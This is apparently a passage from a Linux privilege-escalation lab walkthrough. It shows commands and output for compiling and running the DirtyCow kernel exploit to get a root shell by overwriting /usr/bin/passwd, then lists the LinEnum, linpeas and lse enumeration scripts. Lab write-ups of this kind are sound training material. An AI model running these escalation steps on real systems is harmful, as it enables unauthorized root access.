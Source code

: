 - Compile and run the exploit code to gain root access:

```bash
user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
user@debian:~$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap c8806000


madvise 0

ptrace 0

user@debian:~$ /usr/bin/passwd
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/home/user# mv /tmp/bak /usr/bin/passwd
root@debian:/home/user# exit
exit

```

---

##  Privilege Escalation Scripts

- Listing all the Privilege Escalation Scripts:

```bash
user@debian:~$ cd  /home/user/tools/privesc-scripts
user@debian:~/tools/privesc-scripts$ 
user@debian:~/tools/privesc-scripts$ ls
LinEnum.sh  linpeas.sh  lse.sh
```

- Experiment with all three tools, running them with different options!

---
